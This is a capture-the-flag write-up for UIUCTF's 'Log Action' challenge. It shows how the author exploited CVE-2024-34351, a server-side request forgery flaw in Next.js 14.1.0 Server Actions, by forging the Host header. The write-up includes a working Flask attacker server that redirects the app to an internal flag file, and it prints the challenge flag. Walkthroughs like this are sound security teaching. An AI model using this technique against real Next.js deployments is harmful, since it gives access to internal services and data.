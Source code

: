 - Challenge name: Log Action
- Author: Minh
- Description: 
I keep trying to log in, but it's not working :'(
http://log-action.challenge.uiuc.tf/
- Solves: 105
- Key: uiuctf{close_enough_nextjs_server_actions_welcome_back_php}
- Solver: `Flex` in `SpeedBambooFox`

# Overview

In this challenge, we are dealing with a website set up using Docker compose, with Next.js as the frontend.

## Provides files

The provides files `log-action.zip` have the following file structure:

```
./log-action
├── backend
│   └── flag.txt
├── docker-compose.yml
└── frontend
    ├── .gitignore
    ├── Dockerfile
    ├── entrypoint.sh
    ├── next-env.d.ts
    ├── next.config.mjs
    ├── package-lock.json
    ├── package.json
    ├── postcss.config.mjs
    ├── src
    │   ├── app
    │   │   ├── admin
    │   │   │   └── page.tsx
    │   │   ├── global.css
    │   │   ├── layout.tsx
    │   │   ├── login
    │   │   │   └── page.tsx
    │   │   ├── logout
    │   │   │   └── page.tsx
    │   │   └── page.tsx
    │   ├── auth.config.ts
    │   ├── auth.ts
    │   ├── lib
    │   │   └── actions.ts
    │   └── middleware.ts
    ├── tailwind.config.ts
    └── tsconfig.json
```

# Exploration

## Checking the Website

The web page given in the challenge contains only some simple text and a clickable text `here`, as shown below:
![The Website](./images/image1.png)

After clicking `here`, a page with two inputs appears, one of which is for `Username`, and the other is for `Password`.
![The Website](./images/image2.png)

After typing, we will find the text `Something went wrong`.
![The Website](./images/image3.png)

After my initial inspection of the site, I didn't find anything interesting, so I turned to researching the files given by the challenge.

## Checking the given file

After checking the given file, I realized this is the source code of the site in the challenge, and in the `backend` folder, I found `flag.txt`, which should be where the flag is located, then I started looking for any way to access `flag.txt`.

After a bit of searching, I realized attack the login function didn't really help in finding flags. After thinking about it for a while, since I have experience in writing websites using the Next.js framework, it occurred to me that Next.js is a server-side rendering web framework, so I look for any vulnerabilities that would help me to access the server-side to get `flag.txt`.

Then I found `CVE-2024-34351`, which was discovered in May of this year, and it was fixed in Next.js `v14.1.1`, and I found that the Next.js version of the source code is `14.1.0`, the following is a detailed introduction to the vulnerability:

> A Server-Side Request Forgery (SSRF) vulnerability was identified in Next.js Server Actions. If the Host header is modified, and the below conditions are also met, an attacker may be able to make requests that appear to be originating from the Next.js application server itself. An attacker is able to read the full HTTP response when successfully exploiting this SSRF issue.
>
> and conditions are:
> - A server action is defined;
> - The server action redirects to a URL starting with /;
> - We are able to specify a custom Host header while accessing the application.

Then I found this article, `https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps`, which has a detailed description of how this vulnerability is exploited and how it works.

As mentioned in this article, if the redirect starts with / (for example, a redirect to /login) the server will fetch the result of the redirect _server side_, then return it. Then I inspect the source code provided in the challenge, some pages do use the redirect() function and the redirect url starts with '/',  such as the logout page:

![The Website](./images/image4.png)

![The Website](./images/image5.png)

We can utilize the logout page, when we click the `Log out` button, the website will redirect to `/login`, then we can forge a host header pointing to our attacker server endpoint. 

When our attacker server receive any `HEAD` request, return a response with the header `Content-Type: text/x-component`, and when our attacker server receive `GET` request, return a redirect response to the flag location, we can use a URL like `http://backend/flag.txt` to access files in nginx container built with docker.  

# Exploit

Here's a modified version of a Flask example taken from the above article:
``` python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://backend/flag.txt')

```

Once we have set up our attacker server, we click on the button and use Burp Suite to change the `Host` and `Origin` in the request header to our attack host:
![The Website](./images/image6.png)

Then, we can get the flag in the challenge via reponse:
![The Website](./images/image7.png)

# References

- https://github.com/azu/nextjs-CVE-2024-34351/tree/main
- https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps